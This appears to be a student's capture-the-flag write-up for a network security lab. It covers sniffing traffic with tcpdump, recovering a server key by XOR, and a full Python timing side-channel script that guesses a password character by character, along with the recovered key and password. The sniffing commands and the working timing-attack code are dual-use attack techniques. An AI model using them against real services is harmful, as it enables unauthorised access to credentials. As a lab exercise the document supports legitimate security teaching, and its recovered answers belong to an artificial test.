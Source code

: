 # Question 1


# Question 2


# Question 3
This flag started out with listening for traffic on the specified port (both ingoing and outgoing). With this, I was hoping to find some clues to what the key might be.

Using `tcpdump src port 5678 or dst port 5678 -w out.pcap`, I was able to listen to traffic in the background and let it run for a bit. After about an hour, using Wireshark or `tcpdump -X -r out.pcap`, I read the packets and found some of the following data:

![packets](images/packets.png)

The "gian.97dakls1560" kept repeating and I found out that it was a username + key being sent to thee server at port 5678. So I tried the following using my own username and the weird string of letters I found.

![encryptedkey](images/encryptedkey.png)

With this, I figured out that to get the key, I would have to XOR the given key with my username in order to find the key used by the server. So using the following Python codee


```python
import base64

def xor(user, outputed_key):
    # base64 decode
    decoded_key = base64.b64decode(outputed_key)
    
    # encode user_bytes to be bytes
    user_bytes = user.encode()
    
    result = bytearray()
    for i in range(max(len(user_bytes), len(decoded_key))):
        result.append(user_bytes[i % len(user)] ^ decoded_key[i % len(decoded_key)])
    
    return result

user = "dxu0117"
outputed_key = "I0hFVHsBVUU="

result = xor(user, outputed_key)

print(result.decode())

```
We get "G00dJ0b!":

![goodjob](images/goodjob.png)

# Question 4
Question 4 involves essentially guessing a password checked by the password server at 1234. Instead of bruteforcing and attempting to listen to network traffic (which yielded nothing), I settled on using a timing side-channel attack.

The following code probes the server for every possible character, then if one of the character gives a response that takes longer than other characters, we can assume that that character is part of the password. We add on the "correct" letter to what we know and continue on until the password server finally tells us that our password is correct.

```python
import socket
import time
import string

def timing_attack():

    charset = ' ' + string.ascii_letters + string.digits + string.punctuation
    discovered_password = "B3W4R30fTC"

    try:
    

        
        for i in range(20):
            best_char = None
            max_time = 0

            for char in charset:
                test_input = discovered_password + char

                time.sleep(0.5)

                try:
                    # create tcp connection

                    # get prompt message
                    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                    s.settimeout(15)


                    s.connect(('ec521network', 1234))
                    res = s.recv(1024).decode()

                    start_time = time.time()
                    s.sendall((test_input + "\n").encode())

                    res = s.recv(1024).decode()
                    end_time = time.time()

                    print(char, end_time - start_time)


                    if (end_time - start_time) > max_time:
                        # if we took longer with previouschar + character, then we know its right
                        max_time = end_time - start_time
                        best_char = char


                except Exception as e:
                    print(e)
                finally:
                    s.close()
                    
            
            discovered_password += best_char
            print("Password so far:", discovered_password)

            try:
                # res = s.recv(1024).decode()
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(10)

                s.connect(('ec521network', 1234))
                res = s.recv(1024).decode()
                s.sendall((discovered_password + "\n").encode())
                res = s.recv(1024).decode()
                print(res)
                # check if correct
                if "Error" not in res:
                    print("Password Found:", discovered_password)
                    s.close()
                    return discovered_password
                
            except Exception as e:
                print(e)
            finally:
                s.close()
    except Exception as e:
        print(e)

    return discovered_password


print(timing_attack())
```

When using this script, I printed out the response timings of different characters to debug what was going on. I saw that teh response for the "correct" letter came out a second longer.

![pwdsofar](images/pwdsofar.png)

Repeating this process, eventually the script came out with an answer "B3W4R30fTC" which was successful.

![finalpwd](images/finalpwd.png)